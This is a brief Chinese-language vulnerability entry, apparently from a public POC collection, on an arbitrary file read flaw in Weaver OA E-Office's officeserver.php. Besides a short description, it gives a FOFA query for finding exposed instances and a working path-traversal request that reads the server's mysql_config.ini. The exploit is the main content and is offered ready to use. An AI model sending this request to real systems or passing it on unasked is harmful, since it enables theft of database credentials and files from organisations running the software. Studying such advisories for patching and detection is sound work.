

# 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
泛微OA E-Office
```

## FOF

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面


验证POC

```
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

